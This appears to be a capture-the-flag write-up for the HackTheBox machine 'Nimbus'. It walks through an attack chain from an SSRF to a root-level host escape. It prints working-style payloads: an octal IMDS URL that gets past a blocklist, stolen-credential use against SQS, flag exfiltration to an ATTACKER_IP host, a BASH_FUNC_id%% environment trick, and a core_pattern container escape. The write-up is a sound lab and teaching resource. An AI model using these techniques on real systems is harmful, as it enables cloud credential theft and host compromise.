

# 🌩️ HackTheBox — Nimbus


> **Internal Job Scheduler** backed by a self-hosted AWS emulator.
>
> Final exploit chain:
>
> **SSRF → IMDS credential theft → SQS job injection → Worker RCE → Internal Floci admin access → Privileged CodeBuild → BASH_FUNC_id bypass → core_pattern host escape → root**

---

## ⚡ Quick Start

The entire attack chain is automated through `exploit.sh`.

```bash
chmod +x exploit.sh
./exploit.sh
```

The script:

1. Configures local hostnames.
2. Retrieves IAM credentials via SSRF.
3. Sends a malicious SQS job.
4. Achieves worker code execution.
5. Launches a privileged CodeBuild project.
6. Bypasses Floci's privilege-dropping entrypoint.
7. Escapes the container through `core_pattern`.
8. Retrieves both flags.

Expected output:

```text
[+] user.txt = <flag>
[+] root.txt = <flag>
```

---

# Attack Flow



---

# 1. Recon

Initial enumeration identifies two exposed services:

```bash
nmap -p- TARGET_IP
```

Results:

```text
22/tcp open ssh
80/tcp open http
```

Adding hostnames:

```bash
echo "TARGET_IP nimbus.htb aws.nimbus.htb floci" | sudo tee -a /etc/hosts
```

Browsing the application reveals:

* Internal Job Scheduler
* YAML-based jobs
* Preview functionality
* AWS-backed infrastructure

The health endpoint references:

```text
http://aws.nimbus.htb
```

suggesting backend AWS integrations.

---

# 2. SSRF in Job Preview

The `/jobs/preview` endpoint accepts arbitrary URLs and retrieves remote content.

Example request:

```http
POST /jobs/preview
```

with:

```text
url=http://attacker/test.yaml
```

The server fetches the URL and reflects the response body.

Two restrictions exist:

1. URL must appear to reference a YAML file.
2. Internal addresses are blocklisted.

Example blocked targets:

```text
169.254.169.254
127.0.0.1
localhost
aws.nimbus.htb
```

---

## Bypassing the Filters

The exploit script uses an octal representation of the metadata address:

```text
0251.0376.0251.0376
```

which resolves to:

```text
169.254.169.254
```

while bypassing string matching.

To satisfy the YAML validation:

```text
?a=x.yaml
```

is appended.

Final payload:

```text
http://0251.0376.0251.0376/latest/meta-data/iam/security-credentials/nimbus-web-role?a=x.yaml
```

---

# 3. Harvesting IMDS Credentials

The SSRF reaches EC2 Instance Metadata Service.

The application returns:

```json
{
  "Code": "Success",
  "AccessKeyId": "ASIAQX4PG7L2K9M3N5R8",
  "SecretAccessKey": "bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs",
  "Token": "IQoJb3JpZ2luX2VjEHQ... Put full token",
  "Expiration": "2026-06-22T04:12:49Z"
}
```

These temporary credentials belong to:

```text
nimbus-web-role
```

and grant access to backend AWS services.

The exploit extracts them automatically:

```python
creds = json.loads(raw)
```

and uses them to authenticate against the AWS emulator.

---

# 4. Accessing SQS

Using the stolen credentials:

```python
sqs = boto3.client(
    "sqs",
    endpoint_url="http://aws.nimbus.htb",
    aws_access_key_id=creds["AccessKeyId"],
    aws_secret_access_key=creds["SecretAccessKey"],
    aws_session_token=creds["Token"]
)
```

The attacker gains permission to send messages into:

```text
nimbus-jobs
```

queue.

This queue feeds the worker infrastructure.

---

# 5. Worker Code Execution

The worker consumes YAML jobs.

The exploit generates a malicious job:

```yaml
name: privesc
script: |
    python payload
```

The embedded Python performs two tasks:

1. Read user flag.
2. Launch privilege escalation.

User flag extraction:

```python
cat /home/worker/user.txt
```

The flag is base64 encoded and exfiltrated:

```python
http://ATTACKER_IP/user_<base64>
```

The listener embedded in the exploit receives:

```text
[+] user.txt = FLAG
```

confirming code execution inside the worker container.

---

# 6. Reaching Floci as Administrator

From the worker network namespace:

```python
endpoint_url="http://floci:4566"
```

is reachable directly.

Unlike the public proxy:

```text
aws.nimbus.htb
```

the internal Floci service does not enforce IAM restrictions.

The exploit authenticates using:

```python
aws_access_key_id='test'
aws_secret_access_key='test'
```

and receives administrative access.

This effectively turns worker RCE into full cloud-admin privileges.

---

# 7. Creating a Privileged CodeBuild Project

The exploit creates a new CodeBuild project:

```python
cb.create_project(...)
```

with:

```python
privilegedMode=True
```

Key configuration:

```python
'image':'floci/floci:latest'
```

```python
'privilegedMode': True
```

This launches a Docker container with elevated capabilities.

---

# 8. BASH_FUNC_id%% Entrypoint Bypass

The Floci image contains an entrypoint that normally drops privileges.

Without bypassing it:

```text
uid 1001
```

is enforced.

The exploit abuses Bash exported functions:

```python
{
  "name":"BASH_FUNC_id%%",
  "value":"() { echo uid=1000; }"
}
```

Whenever the entrypoint runs:

```bash
id
```

it receives forged output.

The privilege-dropping logic is skipped.

Result:

```text
Container remains uid=0
```

providing a fully privileged root environment.

---

# 9. Host Escape Through core_pattern

Inside the privileged build container:

```bash
UDIR=$(...)
```

locates the OverlayFS upperdir.

The exploit creates:

```bash
/x.sh
```

containing:

```bash
cat /root/root.txt > /rf
```

Then:

```bash
echo "|${UDIR}/x.sh" > /proc/sys/kernel/core_pattern
```

changes the kernel crash handler.

A deliberate crash is triggered:

```bash
kill -11 $$
```

which causes the host kernel to execute:

```bash
x.sh
```

as root.

The script reads:

```text
/host/root/root.txt
```

and places it in a location visible to the container.

---

# 10. Retrieving root.txt

The build container reads:

```bash
cat /rf
```

encodes the flag:

```bash
base64 -w0
```

and exfiltrates it:

```bash
http://ATTACKER_IP/root_<base64>
```

The listener receives:

```text
[+] root.txt = FLAG
```

completing the attack chain.

---

# Vulnerabilities

1. SSRF in `/jobs/preview`
2. Weak blacklist-based filtering
3. IMDS exposure
4. Over-privileged IAM role
5. Trusting SQS messages
6. Worker executes attacker-controlled Python
7. Internal admin service accessible from containers
8. Privileged CodeBuild containers
9. Entrypoint trust in `id`
10. Writable `core_pattern`
11. Host escape via privileged container

---

# Final Chain Summary

```text
SSRF
  ↓
IMDS Credentials
  ↓
SQS Injection
  ↓
Worker RCE
  ↓
Floci Admin
  ↓
Privileged CodeBuild
  ↓
BASH_FUNC_id%% Bypass
  ↓
core_pattern Escape
  ↓
Host Root
```

